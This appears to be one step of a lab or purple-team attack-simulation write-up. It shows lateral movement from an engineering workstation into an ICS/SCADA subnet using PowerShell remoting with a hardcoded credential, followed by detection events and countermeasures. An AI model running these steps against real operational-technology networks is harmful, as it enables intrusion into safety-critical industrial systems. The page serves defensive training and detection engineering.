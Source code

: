# Step 5: Lateral Movement into OT Subnet

## Objectives
- Lateral movement from ENG subnet into the isolated OT subnet (`10.0.8.0/24`)  
- Leverage engineering workstation VPN path to access OT machines  
- Prepare for targeting OT infrastructure in later stages

## Context
- Attacker has compromised `eng-workstation` through WinRM access using previously obtained engineering credentials from the IT subnet.
- VPN client is configured on `eng-workstation` and used to access OT resources.
- The OT subnet hosts ICS/SCADA systems critical to operations  

## Execution

### 1. Identify OT systems and paths
```powershell
route print
ipconfig /all
```
Discover existing routes and verify network interfaces that may provide a path to the OT subnet.

### 2. Validate VPN connectivity and OT access with ENG creds
```powershell
Test-Connection -ComputerName 10.0.8.10 -Count 2
Test-NetConnection -ComputerName 10.0.8.10 -Port 445
```
Confirm that the ENG workstation can reach OT subnet endpoints via VPN and essential services.

### 3. Access OT subnet remotely using PowerShell and valid credentials

```powershell
$secPass = ConvertTo-SecureString "P@ssword1" -AsPlainText -Force
$otCreds = New-Object System.Management.Automation.PSCredential("OTDOMAIN\enguser", $secPass)
Invoke-Command -ComputerName 10.0.8.10 -Credential $otCreds -ScriptBlock {
  hostname
  whoami
  Get-WmiObject Win32_OperatingSystem
}
```
Use ENG domain credentials over WinRM to establish remote access into the OT environment and enumerate host information.


## Result

-   Confirmed VPN client provides access to the OT subnet.
-   OT hosts successfully discovered and reachable via WinRM.
-   Initial foothold in OT network established for future ICS/SCADA manipulation

## Detection Opportunities

| Source       | Technique                          | Indicator/Event                                                                 |
|--------------|------------------------------------|----------------------------------------------------------------------------------|
| Windows Logs | Remote PowerShell Session          | Event ID 4688 (process creation), 4103 (script block logging), 4624 (logon)     |
| VPN Logs     | Unusual Internal VPN Traffic       | Connection from IT subnet to restricted OT subnet                              |
| Firewall     | East-West Lateral Movement         | Allowed WinRM (TCP 5985/5986) or RDP traffic crossing IT → OT zones            |
| Endpoint     | Suspicious Beaconing/Enumeration   | Repeated access attempts or scans from ENG host to ICS/SCADA hosts             |
| SIEM         | Credential Misuse or Anomalous Logon | Use of ENG domain creds to access OT machines outside expected usage patterns |

## Defensive Countermeasures

-   Limit VPN split tunneling and restrict OT subnet access by group policy
-   Monitor for unusual remote logins to OT subnet (especially from ENG workstations)
-   Enable and review PowerShell logging and WinRM audit events
-   Alert on WinRM or RDP connections originating from engineering systems into OT
